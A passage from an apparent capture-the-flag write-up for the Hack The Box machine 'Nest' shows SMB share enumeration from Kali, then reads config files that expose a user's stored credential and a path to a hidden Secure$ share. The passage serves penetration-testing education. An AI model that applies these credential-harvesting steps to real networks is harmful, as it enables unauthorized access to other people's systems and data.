 ```
  .. D 0 Wed Aug 7 16:01:13 2019
  RU\_config.xml A 270 Thu Aug 8 15:49:37 2019

        10485247 blocks of size 4096. 6543448 blocks available
smb: \IT\Configs\RU Scanner\> cd ..
smb: \IT\Configs\> cd ./NotepadPlusPlus
smb: \IT\Configs\NotepadPlusPlus\> ls
  . D 0 Wed Aug 7 15:31:37 2019
  .. D 0 Wed Aug 7 15:31:37 2019
  config.xml A 6451 Wed Aug 7 19:01:25 2019
  shortcuts.xml A 2108 Wed Aug 7 15:30:27 2019

        10485247 blocks of size 4096. 6543448 blocks available
```

We can see that we are now able to list out the contents now. I won’t list out the whole enumeration of all directories, in order to keep some brevity. Both the Production and Reports folder contain nothing important in them. The most interesting files are listed below: **RU\_config.xml** and **config.xml**.

```
root@kali:~/htb/nest# cat RU\_config.xml
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>

root@kali:~/htb/nest# cat config.xml
<?xml version="1.0" encoding="Windows-1252" ?>
<NotepadPlus>
    <GUIConfigs>
        ---- SNIP 
    </FindHistory>
    <History nbMaxFile="15" inSubMenu="no" customLength="-1">
        <File filename="C:\windows\System32\drivers\etc\hosts" />
        <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
        <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
    </History>
</NotepadPlus>
```

We can see in the first file another set of credentials, but the password seems to be hashed. The second file contains what appears to be a configuration file for Notepad++. The majority of the content is noise, except for the very bottom part. One of the filepaths seems to be related to the **Secure$**  drive.

```
<File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
```

With that information at hand, lets see if we are able to access **Secure$** drive now.
